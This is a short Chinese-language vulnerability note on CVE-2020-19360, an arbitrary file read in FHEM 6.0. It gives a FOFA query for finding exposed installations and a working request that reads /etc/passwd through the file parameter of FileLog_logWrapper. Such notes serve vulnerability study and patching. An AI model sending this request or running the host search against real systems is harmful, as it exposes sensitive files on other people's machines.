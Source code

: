 # Fhem FileLog_logWrapper 任意文件读取漏洞 CVE-2020-19360

## 漏洞描述

FHEM在6.0版本中存在文件包含漏洞，该漏洞源于允许FHEM/FileLog_logWrapper file参数允许攻击者包含文件，攻击者可以利用此漏洞导致敏感信息泄露。

## 漏洞影响

```
FHEM 6.0
```

## FOFA

```
title=="Home, Sweet Home"
```

## 漏洞复现

主页面

![image-20220524144941606](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241449644.png)

验证POC

```
/fhem/FileLog_logWrapper?dev=Logfile&file=%2fetc%2fpasswd&type=text
```

![image-20220524144955698](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241449759.png)